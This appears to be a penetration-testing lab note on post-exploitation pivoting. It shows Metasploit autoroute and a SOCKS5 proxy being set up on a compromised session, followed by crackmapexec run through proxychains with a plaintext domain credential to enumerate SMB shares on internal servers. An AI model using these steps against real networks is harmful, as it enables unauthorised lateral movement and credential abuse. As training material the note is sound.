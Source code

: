 Use **multi/manage/autoroute** and **auxiliary/server/socks_proxy** to create a SOCKS5 proxy to access the internal network from Kali [[20.3 Post-Exploitation with Metasploit]]

```hlt:1,3,6,14,16,19,22
msf6 exploit(multi/handler) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set session 1
session => 1

msf6 post(multi/manage/autoroute) > run
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.6.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5

msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 2.
```

SOCKS proxy is active and can access internal network using #proxychains 

Ensure **/etc/proxychains4.conf** still contains the necessary settings
```
kali@kali:~/beyond$ cat /etc/proxychains4.conf
...
socks5  127.0.0.1 1080
```
- Only socks5 should be active

###### Enumerate network via proxychains

Using #crackmapexec with john's creds to list shares 

```hlt:1,3,4
kali@kali:~/beyond$ proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
SMB         172.16.6.240    445    DCSRV1           [*] Windows 10.0 Build 20348 x64 (name:DCSRV1) (domain:beyond.com) (signing:True) (SMBv1:False)
SMB         172.16.6.241    445    INTERNALSRV1     [*] Windows 10.0 Build 20348 x64 (name:INTERNALSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         172.16.6.254    445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         172.16.6.240    445    DCSRV1           [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         172.16.6.241    445    INTERNALSRV1     [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         172.16.6.240    445    DCSRV1           [+] Enumerated shares
SMB         172.16.6.240    445    DCSRV1           Share           Permissions     Remark
SMB         172.16.6.240    445    DCSRV1           -----           -----------     ------
SMB         172.16.6.240    445    DCSRV1           ADMIN$                          Remote Admin
SMB         172.16.6.240    445    DCSRV1           C$                              Default share
SMB         172.16.6.240    445    DCSRV1           IPC$            READ            Remote IPC
SMB         172.16.6.240    445    DCSRV1           NETLOGON        READ            Logon server share 
SMB         172.16.6.240    445    DCSRV1           SYSVOL          READ            Logon server share 
SMB         172.16.6.241    445    INTERNALSRV1     [+] Enumerated shares
SMB         172.16.6.241    445    INTERNALSRV1     Share           Permissions     Remark
SMB         172.16.6.241    445    INTERNALSRV1     -----           -----------     ------
```
